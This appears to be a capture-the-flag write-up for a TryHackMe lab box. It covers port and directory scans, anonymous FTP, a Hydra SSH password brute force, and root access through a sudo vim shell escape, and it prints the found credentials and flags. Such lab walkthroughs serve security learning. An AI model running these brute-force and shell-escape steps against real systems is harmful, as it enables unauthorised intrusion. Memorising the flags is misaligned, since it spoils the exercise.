 # Simple CTF

```bash
export IP=10.10.121.109
```

## Scans

### Nmap

Initial Nmap Scan:
```bash
nmap -sC -sv -oN scans/nmap.initial $IP
```

Open Ports Found:
```
21 -- ftp
80 -- webpage
2222 -- ssh
```

OS -- Apache 2 Ubuntu, Linux

### Gobuster

```
gobuster dir -w /path/to/wordlist.txt -u http://10.10.121.109
```

Directories found:
```
/simple
/server-status -- 403 Forbidden
```

found name `mike` in robots.txt


## FTP

looking around in FTP:
```
ftp> nlist
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get
(remote-file) ForMitch.txt
(local-file) ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
226 Transfer complete.
166 bytes received in 0.00 secs (593.8072 kB/s)
```

found name `mitch` in `ForMitch.txt`


## Hydra

Bruteforcing username `mitch` with `rockyou.txt` passwordlist on SSH port 2222

```bash
hydra -l mitch -P wordlists/rockyou.txt ssh://10.10.121.109:2222
```

found credentials: `mitch:secret`


## SSH into Machine
```bash
ssh mitch@10.10.121.109 -p 2222
```

```bash
ls
cat user.txt
```

**User Flag Found**: `G00d j0b, keep up!`

new user `sunbath` found in `/home/`

PrivEsc by:
```bash
sudo -l
```

and searching vim on [gtfoBins](https://gtfobins.github.io/gtfobins/vim/)

```bash
sudo vim -c ':!/bin/sh'
```

```
whoami
cd /root/
cat root.txt
```

**Root flag found**: `W3ll d0n3. You made it!`


----
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
